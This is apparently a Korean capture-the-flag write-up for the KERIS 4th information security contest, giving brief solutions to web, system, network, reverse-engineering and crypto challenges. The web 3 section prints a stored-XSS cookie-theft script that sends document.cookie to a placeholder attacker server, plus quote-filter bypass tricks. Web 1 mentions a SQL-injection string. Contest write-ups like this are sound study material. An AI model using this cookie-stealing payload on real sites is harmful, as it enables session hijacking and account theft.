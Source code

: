 # KERIS 제 4회 정보보안경진대회
서울 8 전국 12

![](./bingo.png)

## 법률
구글링

## 시스템 1

## 시스템 2
`exec()`로 명령어를 입력받아 쉘에서 실행하는 프로그램이다.

`cat flag` 했더니 플래그가 나왔다. 약간 어이없었는데 플래그 내용도 fake love 어쩌고 하길래 페이크인 줄 알았는데 진짜였다(...).

## 시스템 3

## 웹 1
`' OR '1'=='1`이였나 했더니 `alert()`로 플래그가 나왔다.

## 웹 2
소스를 봤더니 이상한 이미지를 로드하고 막 나눠서 뿌린다. 원래 이미지의 src를 구해서 들어가면 플래그가 적혀있다.

## 웹 3
게시글을 올리고 바로 볼 수 있는데 XSS가 발생한다. 

쿠키를 확인해보니 여기에 플래그가 들어간다! 이러길래 여기에 스크립트를 올려놓으면 쿠키가 설정된 봇이 읽는 것 같았다.

서버에 `cookie.php`를 올려두고 `location.href=` 어쩌고 할려고 했는데 `location`이 들어가면 XSS라면서 제대로 등록되지 않는다.
`XMLHttpRequest`로 GET 리퀘스트를 보내는 방법으로 쿠키 탈취를 시도했는데 `'`, `"`가 필터링되어서 없어져 버린다.

```js
x = String(/some-string/) // "/some-string/"
x = x.substring(1, x.length-1) // "some-string"
```

위와 같은 방법으로 정규식을 이용해서 필터링 bypass를 시도해봤는데 코드가 너무 길어져서 `input error`가 나온다.

```js
function httpGet(e){
    var t = new XMLHttpRequest;
    return t.open(`GET`, e, !1), t.send(null), t.responseText
}
var u = `http://{server-addr}/cookie.php?c=`;
httpGet(u+document.cookie);
```

구글링을 열심히 해보니 \`를 이용해서 문자열을 선언해도 JS에서는 제대로 인식한다는 것을 알 수 있었다.

대충 위와 같이 스크립트를 짜고(난독화 결과) 쓸데없는 공백과 개행을 없애고 포스팅했다.

스크립트가 제대로 들어간 것을 확인한 뒤 콘솔을 보니까 보안정책 어쩌고 나오길래 안되는 줄 알았다.

```
flag=Flag is Here!!
flag=Flag is Here!!
flag=w3_give_@dviCe_bUT_w3_CaNnoT_give_C0NdUct
flag=Flag is Here!!
flag=Flag is Here!!
flag=Flag is Here!!
flag=Flag is Here!!
flag=Flag is Here!!
```

서버의 `cookie.txt`를 보니까 플래그가 나와있었다.

`w3_give_@dviCe_bUT_w3_CaNnoT_give_C0NdUct`

## 네트워크 1

## 네트워크 2

## 네트워크 3
3단계로 구성되어 있다.

### 1
```
Router> show version
    [+] FLAG1{ C15c0_Pack3t_Tr4c3r_H4ve_U }
```

### 2
```
Router> enable
Router# configure terminal
Router(config)# hostname keris2018
    [+] Ok, you set hostname
Router(config)# enable secret keris2018secret
    [+] Ok, you set enable secret
Router(config)# enable password whoisthewinnerofkeris2018
    [+] Ok, you set enable password
    FLAG2{ Ev3r_u5ed_ittttt? }
```

### 3
```
Router(config)# exit
Router# show routing-config
    enable password 7 08364441000A111F171C050A242E3627353E27010E0551510701
```

`flag1_flag2_encrypt1234` 형식이다.
`C15c0_Pack3t_Tr4c3r_H4ve_U_Ev3r_u5ed_ittttt?_08364441000A111F171C050A242E3627353E27010E0551510701`

## 역공학 1
```bash
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0000000000400686 <+0>:	push   rbp
   0x0000000000400687 <+1>:	mov    rbp,rsp
   0x000000000040068a <+4>:	sub    rsp,0x10
   0x000000000040068e <+8>:	mov    rax,QWORD PTR fs:0x28
   0x0000000000400697 <+17>:	mov    QWORD PTR [rbp-0x8],rax
   0x000000000040069b <+21>:	xor    eax,eax
   0x000000000040069d <+23>:	mov    edi,0x400784
   0x00000000004006a2 <+28>:	call   0x400520 <puts@plt>
   0x00000000004006a7 <+33>:	lea    rax,[rbp-0xc]
   0x00000000004006ab <+37>:	mov    rsi,rax
   0x00000000004006ae <+40>:	mov    edi,0x400797
   0x00000000004006b3 <+45>:	mov    eax,0x0
   0x00000000004006b8 <+50>:	call   0x400560 <__isoc99_scanf@plt>
   0x00000000004006bd <+55>:	mov    eax,DWORD PTR [rbp-0xc]
   0x00000000004006c0 <+58>:	cmp    eax,0x1c05523
   0x00000000004006c5 <+63>:	jne    0x4006db <main+85>
   0x00000000004006c7 <+65>:	mov    edi,0x40079a
   0x00000000004006cc <+70>:	call   0x400540 <system@plt>
   0x00000000004006d1 <+75>:	mov    edi,0x0
   0x00000000004006d6 <+80>:	call   0x400570 <exit@plt>
   0x00000000004006db <+85>:	mov    edi,0x4007a3
   0x00000000004006e0 <+90>:	call   0x400520 <puts@plt>
   0x00000000004006e5 <+95>:	mov    eax,0x0
   0x00000000004006ea <+100>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x00000000004006ee <+104>:	xor    rdx,QWORD PTR fs:0x28
   0x00000000004006f7 <+113>:	je     0x4006fe <main+120>
   0x00000000004006f9 <+115>:	call   0x400530 <__stack_chk_fail@plt>
   0x00000000004006fe <+120>:	leave  
   0x00000000004006ff <+121>:	ret    
End of assembler dump.
gdb-peda$ x/s 0x400784
0x400784:	"Type your password"
gdb-peda$ x/s 0x400797
0x400797:	"%d"
gdb-peda$ x/s 0x40079a
0x40079a:	"cat flag"
gdb-peda$ x/s 0x4007a3
0x4007a3:	"Wrong..."
gdb-peda$
```

`cmp eax,0x1c05523`에서 입력값을 `0x1c05523`와 비교한다. 따라서 패스워드는 `29381923`

패스워드를 정확하게 입력하면 플래그를 준다.

## 역공학 2

## 역공학 3

## 암호학 1
`today is cloudy. so my feeling is not good either.`

## 암호학 2
뚜까

## 암호학 3
